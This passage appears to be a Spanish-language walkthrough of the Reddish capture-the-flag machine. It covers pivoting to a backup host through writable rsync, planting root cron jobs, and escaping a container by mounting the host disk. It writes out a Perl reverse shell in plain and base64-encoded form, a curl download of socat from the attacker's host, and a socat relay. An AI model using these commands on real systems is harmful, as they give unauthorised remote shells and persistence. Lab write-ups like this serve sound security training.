



Ahora que somos root podemos enumerar las IP's en el segmento 172.20.0.3/16

```perl
172.20.0.1
172.20.0.3 <-- www [PWNED]
172.20.0.2 <-- backup
```



## Backup

Probaremos usar el binario estatico de nmap.

```zsh
./nmap -p- --min-rate 5000 172.20.0.2
```

```zsh
PORT    STATE SERVICE
873/tcp open  rsync
```

Rsyncd opera como un daemon para la sincronización y transferencia de archivos.



Con la herramienta rsync, podemos acceder, leer y escribir en la copia de seguridad.

```bash
rsync rsync://backup
```



### Cron Task

Al enumerar, noté que podríamos usar trabajos cron nuevamente para obtener un shell inverso en la máquina de respaldo (`172.20.0.2`)

```bash
 rsync rsync://backup/src/etc/cron.d
```



```zsh
* * * * * root sh /tmp/reverse.sh
```

```zsh
echo '* * * * * root sh /tmp/reverse.sh' > reverse
```

```zsh
rsync reverse rsync://backup/src/etc/cron.d/reverse
```



El archivo reverse shell aún no existe, pero lo crearemos para obtener una reverse shell usando Perl.

```perl
perl -e 'use Socket;$i="172.20.0.3";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

Pero para eso, necesitamos que la máquina 172.0.0.2 se conecte de nuevo a mi máquina Kali. Usaremos **socat** para redirigir la conectividad.


```zsh
__curl http://172.19.0.3:1111/socat > socat
```

Ahora necesitamos cargar nuestro archivo **reverse.sh** usando codificación base64.

```zsh
echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjIwLjAuMyI7JHA9Nzc3Nztzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL2Jhc2ggLWkiKTt9OycK | base64 -d > reverse.sh
```



```zsh
rsync reverse.sh rsync://backup/src/etc/cron.d/reverse.sh
```

```zsh
./socat TCP-LISTEN:7777 stdout
```


## Reddish Host



Con `df -h` nos mostrará los dispositivos montados.

```zsh
df -h
```

Enumeraremos dispositivos, mostrando información sobre discos duros, particiones, dispositivos de almacenamiento como USB y otros.

```zsh
lsblk
```



```zsh
ls /dev/sda*

/dev/sda  /dev/sda1  /dev/sda2  /dev/sda3
```

Cambiaremos el **MOUNT POINT** a /temp/test.

```zsh
mount /dev/sda2 /mnt/test
```

Podemos ver otro sistema de archivos.



Incluso podemos ver la flag de root.txt



>Reddish distribuye los usuarios y el root en contenedores separados. 

Para obtener un shell inverso, continuaremos con el mismo proceso cron y base64 de Perl que hemos hecho antes.

```zsh
echo '* * * * * root sh /tmp/reverse.sh' > task
```



```zsh
echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTAuMTAuMTQuMiI7JHA9OTk5OTtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL2Jhc2ggLWkiKTt9OycK | base64 -d > reverse.sh
```

Configuramos la reverse shell con el puerto y la ip de mi kali para enviar la reverse shell directo.



PWNED! 




